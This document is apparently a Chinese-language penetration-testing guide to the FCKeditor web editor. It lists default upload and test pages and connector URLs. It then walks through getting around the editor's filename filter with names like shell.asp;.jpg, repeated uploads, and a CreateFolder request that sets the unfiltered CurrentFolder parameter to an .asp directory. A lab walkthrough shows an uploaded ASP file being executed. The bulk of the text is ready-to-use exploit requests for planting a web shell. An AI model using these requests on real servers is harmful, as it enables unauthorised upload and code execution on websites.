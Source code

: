 # FCKeditor编辑器渗透思路

### 1.查看FCKeditor版本

```
http://127.0.0.1/fckeditor/editor/dialog/fck_about.html
http://127.0.0.1/FCKeditor/_whatsnew.html
```

### 2.一些FCK默认链接(以asp为例)：

```html
上传测试页面：Fckeditor编辑器默认会存在test.html和uploadtest.html文件，直接访问这些文件可以获取当前文件夹文件名称以及上传文件，有的版本可以直接上传任意文件类型，测试上传地址有：
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html

示例页面：
FCKeditor/_samples/default.html
FCKeditor/_samples/asp/sample01.asp
FCKeditor/_samples/asp/sample02.asp
FCKeditor/_samples/asp/sample03.asp
FCKeditor/_samples/asp/sample04.asp

连接器：
FCKeditor/editor/filemanager/connectors/asp/connector.asp
FCKeditor/editor/filemanager/connectors/aspx/connector.aspx

创建文件夹链接：
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

上传页面：
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=/&Connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=monyer&Connector=connectors/asp/connector.asp

有时候，网站管理员会把上传页面禁止创建文件夹和上传文件，但是由于网站管理员的配置不当，我们的连接器写绝对路径的话，有时候可以创建文件夹和上传文件
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=http://ww.xxx.com/connectors/asp/connector.Asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://ww.xxx.com/connectors/asp/connector.asp
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Flash&Connector=http://ww.xxx.com/connectors/asp/connector.asp
```

### 3.上传绕过

检测文件名中的‘.’修改为‘_’，绕过方式：

1.在上传了诸如*shell.asp;.jpg*的文件后，会自动将文件名改为*shell_asp;.jpg*。可以继续上传同名文件，文件名会变为*shell.asp;(1).jpg*

2.配合web服务器解析漏洞等文件上传漏洞

3.突破建立文件夹：

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test

FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/xx.asp&NewFolderName=x.asp

### 



=================================================================================**FCKeditor编辑器**


 

可以去这下载编辑器:http://download.csdn.net/detail/u011781521/9767326
 


 

**1.查看编辑器版本**


 

FCKeditor/_whatsnew.html


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301133148251)
 


 

**2.FCKeditor编辑器页** 
 
 FCKeditor/_samples/default.html
 


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301133225352)
 


 

**3.常用上传地址**


 



```html
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp



FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/



FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp



FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp
```




 

由于这里用的是2.5的版本所以下面这条语句能用


 



```html
http://192.168.87.129:8234//editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp
```


![img](FCKeditor编辑器漏洞通杀.assets/20170301140209859)




 

如果在输入以上地址测试的过程中弹出以下的提示


 



![img](FCKeditor编辑器漏洞通杀.assets/20170301141548991)


 

那就是没有开启文件上传功能,要把\editor\filemanager\connectors\asp\config.asp文件中的


 

Dim ConfigIsEnabled
 ConfigIsEnabled = False
 


 

设置成功true。就行了，然后上传6.asp;.jpg文件试试


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301141915308)
 


 

发现他进行了过滤6.asp;.jpg改成了6_asp;.jpg,把点改成了下划线。审查元素看下图片的路径


 


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301142348518)
 


 

访问这个路径看下。


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301142449972)
 


 

asp文件并没有被解析成功。


 

这就是fckeditor过滤"."为"_"的一个机制,想要突破的话有以下两种方式：


 

**1.二次上传**


 

第一次上传：qq.asp;.jpg ==》qq_asp;.jpg

第二次上传：qq.asp;.jpg ==》qq_asp;.jpg (不满足命名要求)

可能出现第二次命名为 qq.asp;.(1).jpg


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301144717658)


 

还是被过滤了。。
 


 


 

**2.新建上传**


 

手动新建一个文件夹


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301144347185)
 


 

发现他还是过滤了。那我们只有突破建立文件夹了。
 


 

执行以下地址就能成功创建文件夹


 



```html
/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/fendo.asp&NewFolderName=x.asp
```


![img](FCKeditor编辑器漏洞通杀.assets/20170301145746516)



![img](FCKeditor编辑器漏洞通杀.assets/20170301145900893)
 


 

这又是为什么了????手动不能创建，而通过以上地址就能成功创建了，让我们来对比下，手动创建和通过以上地址创建的一个区别。
 


 



漏洞地址：

/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/fendo.asp&NewFolderName=x.asp


 

手工新建：

/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=fendo.asp

 

原因：

CurrentFolder：当前文件夹 未进行过滤(这个文件夹下的没有过滤)

NewFolderName：新建文件名 进行了过滤


 

这就是为什么通过上面地址能创建，而手动却不能创建的一个原因，然后我们再上传6.asp;.jpg到fendo.asp文件下看是否成功解析。


 

![img](FCKeditor编辑器漏洞通杀.assets/20170301151146548)
 


 

成功解析。。